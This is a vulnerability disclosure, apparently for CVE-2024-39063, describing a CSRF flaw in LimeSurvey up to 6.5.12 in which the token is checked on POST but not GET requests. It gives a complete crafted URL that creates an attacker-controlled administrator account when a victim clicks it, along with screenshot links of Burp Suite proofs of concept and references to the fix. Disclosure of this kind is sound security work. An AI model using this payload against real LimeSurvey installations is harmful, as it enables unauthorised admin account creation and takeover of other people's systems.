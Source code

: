 Lime Survey <= 6.5.12 is vulnerable to Cross Site Request Forgery (CSRF). The YII_CSRF_TOKEN is only checked when passed in the body of POST requests, but the same check isn't performed in the equivalent GET requests. To exploit this vulnerability an attacker could send the following link to the victim: 

http://example.com/index.php?r=userManagement/applyedit&YII_CSRF_TOKEN=&User%5Buid%5D=&User%5Busers_name%5D=ATTACKER_USERNAME&User%5Bfull_name%5D=ATTACKER_NAME&User%5Bemail%5D=ATTACKER_EMAIL&expires=EXPIRATION_DATE&preset_password=1&User%5Bpassword%5D=ATTACKER_PASSWORD&password_repeat=ATTACKER_PASSWORD&random_example_password=vDfSU49xlEeG&YII_CSRF_TOKEN=

When the victim clicks the link, a new administrative account is created with the attacker's password:

1. CSRF Token checked in the POST request

![image](https://github.com/sysentr0py/CVEs/assets/71945854/40f39095-dbc8-4413-af0c-ffd2a36b772a)

2. CSRF Token isn't checked in the GET request

![image](https://github.com/sysentr0py/CVEs/assets/71945854/990d505e-3009-4d30-8a00-951a09b3bc56)

3. CSRF PoC with Burp Suite

![image](https://github.com/sysentr0py/CVEs/assets/71945854/dd95012b-3788-4d7c-a2a5-211200ab0df8)


4. CSRF PoC2 with Burp Suite

![image](https://github.com/sysentr0py/CVEs/assets/71945854/c1a4706e-a480-460e-8553-8baa11a23549)

References:
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-39063
- https://github.com/LimeSurvey/LimeSurvey/pull/3877
